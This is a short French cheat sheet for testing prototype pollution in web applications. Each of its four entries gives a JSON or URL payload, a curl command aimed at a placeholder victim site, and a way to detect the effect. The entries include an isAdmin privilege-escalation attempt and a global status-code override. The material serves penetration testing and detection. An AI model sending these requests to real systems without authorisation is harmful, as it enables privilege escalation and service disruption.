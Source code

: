 # Prototype pollution

1. Pollution du prototype via JSON (server-side)  
   - Payload d’attaque neutre : `{ "__proto__": { "polluted": "yes" } }`  
   - Commande d’attaque : curl -X POST -H "Content-Type: application/json" -d '{"__proto__": {"polluted":"yes"}}' https://site-victime.net/api  
   - Commande d’analyse : Envoyer une requête normale (ex : curl https://site-victime.net/api/info) et observer si la propriété `polluted` apparaît ou modifie le comportement  
   - Élément d’analyse : Vérifier si la propriété injectée est accessible sur des objets nouvellement créés, indiquant une pollution globale du prototype  
   - Méthodologie : Injecter un champ `__proto__` dans un body JSON, puis observer un changement persistant de comportement sur d’autres fonctionnalités ou réponses  
   - Source : https://portswigger.net/web-security/prototype-pollution/server-side

2. Pollution du prototype via paramètres d’URL  
   - Payload d’attaque neutre : `?__proto__[isAdmin]=true`  
   - Commande d’attaque : curl "https://site-victime.net/profile?__proto__[isAdmin]=true"  
   - Commande d’analyse : Accéder à une fonctionnalité sensible (ex : /admin) ou observer si la réponse indique un changement de droits ou de comportement  
   - Élément d’analyse : Vérifier si la propriété injectée via l’URL affecte tous les objets, par exemple en accordant un accès admin sans authentification  
   - Méthodologie : Injecter des paramètres `__proto__` dans l’URL, puis tester les fonctionnalités sensibles ou observer les changements dans les réponses ou privilèges  
   - Source : https://portswigger.net/web-security/prototype-pollution

3. Pollution du prototype via propriétés alternatives  
   - Payload d’attaque neutre : `{ "constructor": { "prototype": { "polluted": 1 } } }`  
   - Commande d’attaque : curl -X POST -H "Content-Type: application/json" -d '{"constructor":{"prototype":{"polluted":1}}}' https://site-victime.net/api  
   - Commande d’analyse : Vérifier via une fonctionnalité utilisant un objet nouvellement créé si la propriété `polluted` est accessible ou modifie le résultat  
   - Élément d’analyse : Tester si la pollution fonctionne aussi via `constructor.prototype`, contournant parfois les protections sur `__proto__`  
   - Méthodologie : Injecter différentes syntaxes (`__proto__`, `constructor.prototype`, etc.), puis observer les effets sur les objets ou le comportement de l’application  
   - Source : https://swisskyrepo.github.io/PayloadsAllTheThings/Prototype%20Pollution/

4. Pollution du prototype pour modifier le comportement serveur  
   - Payload d’attaque neutre : `{ "__proto__": { "statusCode": 404 } }`  
   - Commande d’attaque : curl -X POST -H "Content-Type: application/json" -d '{"__proto__":{"statusCode":404}}' https://site-victime.net/api  
   - Commande d’analyse : Observer si toutes les réponses HTTP suivantes retournent un code 404 ou un comportement anormal  
   - Élément d’analyse : Détecter un changement global de configuration ou de comportement serveur suite à l’injection  
   - Méthodologie : Injecter des propriétés correspondant à des options serveur ou valeurs de configuration, puis observer si le serveur adopte un comportement modifié globalement  
   - Source : https://www.vaadata.com/blog/what-is-prototype-pollution-exploitations-and-security-tips/

---
